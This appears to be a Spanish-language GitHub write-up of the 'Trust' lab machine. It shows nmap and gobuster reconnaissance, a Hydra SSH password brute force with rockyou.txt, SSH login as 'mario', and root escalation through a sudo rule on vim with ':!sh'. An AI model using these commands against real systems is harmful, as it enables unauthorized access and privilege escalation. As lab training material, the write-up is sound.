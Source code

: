 # Maquina-Trust 
## Resolviendo maquina-Trust de "El Pingüino de Mario" 

> Paso N°:1 Scaneo con nmap. (Fase de reconocimiento)

```bash
nmap -A 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 09:40 -03
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3
(ECDSA)
|_ 256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b
(ED25519)
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
```
![scaneo1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/839fd0e6-ddae-4b03-ad92-ea861a58cfa6)

## Paso N°2: Buscamos alguna pista en la web.
### _Ya que podemos ver en el scaneo de nmap que el puerto "80/tcp open http Apache httpd 2.4.57 ((Debian))" esta abierto, asi que ponemos "http://172.17.0.2" en el navegador para ver que muestra:_

![scaneo2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4e677bca-cea9-4c82-8f11-cc9d40e33d8a)
### _Al ver solo la pagina de configuracion de Apache procedemos a un scaneo con Gobuster para ver si encontramos algo más importante._

## Paso N°3: Enumeracion usando gobuster.
### _Usamos el comando "gobuster dir -u" para enumerar todos los directorios en el servidor web y "-x php,txt,py,bak,php.bak" para las extensiones de archivo que Gobuster debe añadir a las palabras en la wordlist durante la búsqueda._

```bash
gobuster dir -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
![scaneo3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/8ebee023-93c2-44f5-9310-f141b58d1928)



## Paso N°4: Revisar y utilizar lo encontrado.

### _En éste caso vemos un "/secret.php" el cual vamos a usar poniendolo en la web como "http://172.17.0.2/secret.php" ,en la salida nos encontramos con un mensaje que dice:_ 
> mario, ésta web no es vulnerable.

![scaneo4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/098a01f7-2121-470d-9fe4-b0ab13a4b91b)


### _Asi que como nos da un nombre (Mario) podemos usarlo de prueba para ver si podemos obtener acceso por medio del ssh, pero como no tenemos la contraseña vamos a usar ataque de fuerza bruta en éste caso con hydra_

## Paso N°5: Ataque de Fuerza Bruta con Hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-17 10:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-17 10:22:52
```
![scaneo5](https://github.com/EzeTauil/maquina-Trust/assets/118028611/72496ff2-a25a-4391-b968-884e9088714b)

## Paso N°6: Explotacion-Acceso por ssh.
### Con el ataque de Hydra encontramos la contraseña para el usuario mario la cual es "chocolate", asi que ahora nos conectamos a traves de ssh de la siguiente manera:

```bash
ssh mario@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux 10340d532be9 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
![acceso1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/48290ae0-a9fb-40d7-8869-f3bb7bab4586)


## Paso N°7: Escalando Privilegios.

```bash
~$ whoami
mario
```
![acceso2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4050709c-8b2c-44e3-9aa3-56f4a0a00c73)


### _Procedemos a verificar que comandos podemos ejecutar como usuario root, lo hacemos con el comando (sudo -l)_

```bash
mario@10340d532be9:~$ sudo -l  
[sudo] password for mario: 
Matching Defaults entries for mario on 10340d532be9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 10340d532be9:
    (ALL) /usr/bin/vim
```
![acceso3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/878ea32a-5cf4-4c02-8436-52109abf2a36)

### _Aca vemos que podemos usar "vim" como usuario root, asi que podemos explotar ésto para obtener una shell con privilegios de root, lo hacemos de la siguiente manera: (sudo vim) una vez adentro precionamos "Esc" y despues ":" y escribimos "!sh" de manera que el comando final quedaria asi ":!sh" y precionamos "Enter" ésto nos abre la shell como usuario root, lo comprobamos usando el comando "whoami" , si nos devuelve "root" es que lo logramos.

![acceso4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/c13dd59c-84a2-4b3b-a0a2-4ed5b75bdc4e)

## Obteniendo Shell con acceso root:

![accesoroot](https://github.com/EzeTauil/maquina-Trust/assets/118028611/5afc3cb7-1047-4137-8a17-def53769b98d)






